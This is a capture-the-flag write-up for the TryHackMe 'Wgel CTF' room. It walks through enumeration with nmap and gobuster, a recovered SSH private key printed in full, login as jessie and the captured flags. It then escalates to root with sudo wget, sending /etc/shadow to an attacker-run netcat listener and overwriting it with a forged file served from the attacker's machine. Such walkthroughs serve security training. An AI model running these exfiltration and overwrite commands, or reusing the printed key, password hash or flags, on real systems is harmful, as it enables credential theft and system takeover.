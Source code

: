 # [Wgel CTF](https://tryhackme.com/room/wgelctf)

```
export IP=10.10.240.162
```

---

## Task 1
1. User flag

	a. Nmap scan (`nmap -sV -sC -oN nmap/initial $IP`):
	```
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
	|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
	|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
	80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-title: Apache2 Ubuntu Default Page: It works
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	```

	b. Inspect http://$IP source code and you find this:
	```
	<!-- Jessie don't forget to udate the webiste -->
	```
	Maybe `jessie` is a username.

	c. Gobuster http://$IP (`gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt | tee gobuster-common.log`):
	```
	===============================================================
	Gobuster v3.1.0
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
	===============================================================
	[+] Url:                     http://10.10.240.162
	[+] Method:                  GET
	[+] Threads:                 10
	[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
	[+] Negative Status codes:   404
	[+] User Agent:              gobuster/3.1.0
	[+] Timeout:                 10s
	===============================================================
	2022/09/25 19:45:34 Starting gobuster in directory enumeration mode
	===============================================================
	/.hta                 (Status: 403) [Size: 278]
	/.htaccess            (Status: 403) [Size: 278]
	/.htpasswd            (Status: 403) [Size: 278]
	/index.html           (Status: 200) [Size: 11374]
	Progress: 2735 / 4615 (59.26%) 
	```

	d. Gobuster http://$IP/sitemap (`gobuster dir -u http://$IP/sitemap -w /usr/share/wordlists/dirb/common.txt | tee gobuster-common.log`):
	```
	===============================================================
	Gobuster v3.1.0
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
	===============================================================
	[+] Url:                     http://10.10.240.162/sitemap
	[+] Method:                  GET
	[+] Threads:                 10
	[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
	[+] Negative Status codes:   404
	[+] User Agent:              gobuster/3.1.0
	[+] Timeout:                 10s
	===============================================================
	2022/09/25 19:47:11 Starting gobuster in directory enumeration mode
	===============================================================
	/.hta                 (Status: 403) [Size: 278]
	/.htaccess            (Status: 403) [Size: 278]
	/.htpasswd            (Status: 403) [Size: 278]
	/.ssh                 (Status: 301) [Size: 321] [--> http://10.10.240.162/sitemap/.ssh/]
	Progress: 512 / 4615 (11.09%)
	```

	e. Found an RSA Private SSH key @ `http://$IP/sitemap/.ssh`. Saved it locally.
	```
	-----BEGIN RSA PRIVATE KEY-----
	MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
	m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
	W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
	y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
	+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
	Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
	/1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
	AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
	M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
	SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
	2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
	p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
	7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
	dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
	GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
	shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
	uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
	LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
	QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
	V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
	hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
	9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
	eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
	QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
	jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
	-----END RSA PRIVATE KEY-----
	```

	f. Try to SSH with the private key:
	```
	# First have to change the file permissions:
	chmod 600 private-key

	# SSH command:
	ssh -i ./private-key jessie@$IP
	```

	g. Got in as `jessie`! Found the user.txt flag @ `/home/jessie/Documents/user_flag.txt`.
	```
	057c67131c3d5e42dd5cd3075b198ff6
	```


2. Root flag

	a. Checking `jessie`'s sudo privileges (`sudo -l`)
	```
	Matching Defaults entries for jessie on CorpOne:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User jessie may run the following commands on CorpOne:
	    (ALL : ALL) ALL
	    (root) NOPASSWD: /usr/bin/wget
	```

	b. GTFOBins wasn't super helpful. Meaning it didn't give me an immediate privilege escalation.

	c. After some digging, I found this article, [Wget Privilege Escalation](https://vk9-sec.com/wget-privilege-escalation/), which walked me through escalating my privileges...

	d. First had to copy the target machine's current `/etc/shadow` file to my machine so that I could view and modify a different version of it.
	```
	# On local machine:
	nc -lvp 9999

	# On target machine:
	sudo wget --post-file=/etc/shadow $MY_IP:9999

	# On local machine, you should see the contents of /etc/shadow outputted, like so:
	root:!:18195:0:99999:7:::
	daemon:*:17953:0:99999:7:::
	bin:*:17953:0:99999:7:::
	sys:*:17953:0:99999:7:::
	sync:*:17953:0:99999:7:::
	games:*:17953:0:99999:7:::
	man:*:17953:0:99999:7:::
	lp:*:17953:0:99999:7:::
	mail:*:17953:0:99999:7:::
	news:*:17953:0:99999:7:::
	uucp:*:17953:0:99999:7:::
	proxy:*:17953:0:99999:7:::
	www-data:*:17953:0:99999:7:::
	backup:*:17953:0:99999:7:::
	list:*:17953:0:99999:7:::
	irc:*:17953:0:99999:7:::
	gnats:*:17953:0:99999:7:::
	nobody:*:17953:0:99999:7:::
	systemd-timesync:*:17953:0:99999:7:::
	systemd-network:*:17953:0:99999:7:::
	systemd-resolve:*:17953:0:99999:7:::
	systemd-bus-proxy:*:17953:0:99999:7:::
	syslog:*:17953:0:99999:7:::
	_apt:*:17953:0:99999:7:::
	messagebus:*:17954:0:99999:7:::
	uuidd:*:17954:0:99999:7:::
	lightdm:*:17954:0:99999:7:::
	whoopsie:*:17954:0:99999:7:::
	avahi-autoipd:*:17954:0:99999:7:::
	avahi:*:17954:0:99999:7:::
	dnsmasq:*:17954:0:99999:7:::
	colord:*:17954:0:99999:7:::
	speech-dispatcher:!:17954:0:99999:7:::
	hplip:*:17954:0:99999:7:::
	kernoops:*:17954:0:99999:7:::
	pulse:*:17954:0:99999:7:::
	rtkit:*:17954:0:99999:7:::
	saned:*:17954:0:99999:7:::
	usbmux:*:17954:0:99999:7:::
	jessie:$6$0wv9XLy.$HxqSdXgk7JJ6n9oZ9Z52qxuGCdFqp0qI/9X.a4VRJt860njSusSuQ663bXfIV7y.ywZxeOinj4Mckj8/uvA7U.:18195:0:99999:7:::
	sshd:*:18195:0:99999:7:::

	# Copy and paste them to a new local file, `target-shadow`.
	nano target-shadow 		# Then copy/paste.
	```

	e. Once `/etc/shadow` was on my machine, I could try to crack the hashed passwords for jessie and root OR I could just create new passwords and overwrite the target's `/etc/shadow` with my own using `wget`, which is what we'll do.

	f. First, let's update our local copy of `/etc/shadow`, `target-shadow`:
	```
	# Frst, create a new password that we'll know:
	mkpasswd --method=SHA-512 --stdin
		Password: ********

	# Take that outputted password hash and update the root entry in 'target-shadow' so it looks something like this:
	root:$6$zdIpG8jU1MM9Ufwq$HyvkJ4tuhNcOE5QLn9YzKrdmbom1tMnWGIDqVSSOej24DS/W0qt.iSaq062VA4sGOoEQBHQRkU/VJhZl1309n0:18195:0:99999:7:::
	...
	```

	g. Now, we'll pull `target-shadow` from the target machine and overwrite the current `/etc/shadow`.
	```
	# On local machine:
	python3 -m http.server

	# On target machine:
	sudo wget -O /etc/shadow http://$MY_IP:8000/target-shadow
	``` 

	h. With the new `/etc/shadow` file, we can switch to the root user since we now know the password.
	```
	# On target machine:
	su -
		Password: ********
	```

	i. We got root access! Root flag found @ `/root/root_flag.txt`:
	```
	b1b968b37519ad1daa6408188649263d
	```











